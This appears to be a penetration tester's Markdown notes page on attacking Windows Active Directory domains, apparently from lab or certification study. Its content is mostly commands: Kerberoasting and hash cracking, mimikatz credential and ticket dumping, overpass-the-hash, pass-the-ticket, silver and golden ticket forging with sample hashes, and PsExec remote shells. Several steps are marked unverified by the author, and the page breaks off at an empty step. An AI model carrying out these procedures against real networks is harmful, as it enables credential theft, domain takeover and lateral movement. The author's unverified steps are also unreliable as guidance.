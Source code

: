 ## Windows Domain Exploitation

Follow Windows System instructions for privilege escalation before trying to exploit the domain.

#### Kerberoast (non-admin access)

1. Load `Invoke-Kerberoast.ps1` from the [Empire suite](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) into memory on Windows (remember to set the execution policy to unrestricted)

   ```bash
   powershell.exe -nop -exec bypass
   . .\Invoke-Kerberoast.ps1
   ```
   
2. Run the script

   ```powershell
   # JTR format output
   Invoke-Kerberoast -OutputFormat john | Select-Object -ExpandProperty hash |% {$_.replace(':',':$krb5tgs$23$')}
   
   # Hashcat and maybe also JTR - found this on a website
   Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath HashCapture.txt -Width 8000
   ```

3. It seems like the Hashcat output format works for either JTR or Hashcat, but for the John output format, examine the hash output and make sure there are no extra instances of `$krb5tgs$23$` inside the SPN section (which will occur if the SPN contains a colon).  There were only one instance of that string after the SPN and at the very beginning I had `$krb5tgs`.  If this is not right, it will cause JTR to not recognize the hash.  If you need to see the original hash, just run `Invoke-Kerberoast` by itself.  

4. Paste the hash into a file and feed it to JTR/Hashcat to start cracking.

   ```bash
   hashcat -m 13100 --force <TGSs_file> <passwords_file>
   
   john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
   ```

5. Check group memberships of cracked accounts:

   ```powershell
   net user USERNAME /domain
   ```

6. Attempt to use the accounts

   1. Remote Desktop:

      ```bash
      rdesktop 10.11.1.121 -u username -p password -d domain.com
      ```

   2. Pass the Ticket

   3. SMB
   
   4. PsExec

#### Overpass the Hash

1. Requires RDP access to a machine  and a privileged user's password hash (mimikatz, etc) on the machine

2. Use mimikatz to pass the hash and open a CLI window in the context of the privileged user (whoami will still show the original user)

   ```powershell
   sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe
   ```

3. In the new CLI window, access some resource to generate a TGT *(I'm not sure if this step is actually necessary)*

   ```powershell
   # Network share
   net use \\dc01
   ```

4. With a TGT and the admin user context, you can now use this CLI window to obtain code execution on remote servers the <u>user has access to</u>.

   ```powershell
   # Open a remote shell with SysInternals psexec
   .\psexec \\dc01 cmd.exe
   ```

#### Pass the Ticket 

1. From an admin prompt, uses mimikatz to dump the tickets on the system to see if a domain admin has logged into the PC and generated a ticket.  Tickets are dumped to kirbi files in the current directory.

   ```bash
   # Try listing tickets, not sure if they are guaranteed to show up here
   klist
   # Use mimikatz to dump them
   mimikatz.exe
   privilege::debug
   sekurlsa::tickets /export
   ```

2. If a domain admin's ticket is found, load the ticket for the current user session, then check the cached tickets to make sure it loaded

   ```powershell
   mimikatz.exe
   privilege::debug
   kerberos::ptt ticket.kirbi
   exit
   # Check cached tickets again
   klist
   ```

3. You should now be able to access resources as the domain admin within the current prompt. 
   Note:  You may need to use hostnames rather than IP addresses to access the resources.  If DNS is not available, use the `hosts` file.

   ```bash
   nltest /dc:dc01.mydomain
   ```

#### Silver Ticket

For obtaining a TGS ticket to use on remote systems, we craft a Silver Ticket using the NTLM of a service account, an SPN of a service, and customized group permissions.

1. Gain access to the password or NTLM hash of a service account for the target SPN (cracking with kerberoast or using mimikatz with )

2. Obtain Security Identifier for the Domain using the SID of the current user:

   ```powershell
   whoami /user
   ```

   The Domain SID is extracted by dropping the final section of the User SID:

   > Example:
   >
   > User SID =       S-1-5-21-4038953314-3014849035-1274281563-1103
   > Domain SID = S-1-5-21-4038953314-3014849035-1274281563

3. Use Mimikatz to purge any existing Kerberos tickets and verify the purge

   ```powershell
   kerberos::purge
   kerberos::list
   ```

4. Craft the silver ticket and load it into memory.  By default, the group memberships are set to local-admin and other highly privileged groups, including domain-admins.

   ```powershell
   # To generate the TGS with NTLM
   kerberos::golden /domain:<domain_name> /sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>
   # Example
   kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:e2b475c11da2a0748290d87aa966c327 /ptt
   
   # Options
   /user:offsec 	# User requesting the TGS
   /domain:corp.com 	# Domain for the TGS
   /sid:S-1-5-21-4038953314-3014849035-1274281563 	# SID of the domain
   # Note: the SPN was HTTP/CorpWebServer.corp.com, so I'm not sure if it always breaks down to service/FQDN or not
   /target:CorpWebServer.corp.com 	# FQDN of the service
   /service:HTTP 	# Service type
   /rc4:e2b475c11da2a0748290d87aa966c327 	# Hash of service account for SPN
   /ptt	# Inject the ticket directly into memory now (rather than importing it in a second step)
   
   ##### Other options
   # To generate the TGS with AES 128 key
   kerberos::golden /domain:<domain_name> /sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>
   
   # To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
   kerberos::golden /domain:<domain_name> /sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>
   ```

5. Verify the ticket exists in memory

   ```powershell
   kerberos::list
   ```
   
6. You should now be able to perform actions against the target as the service account with privileged access.

##### Honestly, I'm not sure what the commands below were for.  So these items below need to be verified.

This page seems to have some good info on them though:  https://adsecurity.org/?p=2011

1. Export the ticket with mimikatz

   ```powershell
   sekurlsa::tickets /export
   ```

2. Inject a ticket into another Windows system with mimikatz that uses the same SPN

   ```powershell
   kerberos::ptt TICKET.KIRBI
   ```

3. Execute a command on a remote machine (I guess?)

   ```powershell
   .\PsExec.exe -accepteula \\<remote_hostname> cmd
   ```

#### Pass the Ticket (Golden Ticket)

A golden ticket is the same process as a silver ticket, except you will use the NTLM hash of the `krbtgt` account.  A golden ticket allows you to basically do anything you want.

### Domain Controller Attacks

1. Exploits: 
   Ex.  MS17–010, MS16–077, MS14–068 can be helpful to exploit a machine for privilege escalation if not patched.

   ```bash
   # Unverified nmap scan command
   nmap -Pn -p445 --open --max-host-group 3 --smb-vuln-ms17-010 script 10.10.0.2/16
   ```

2. 
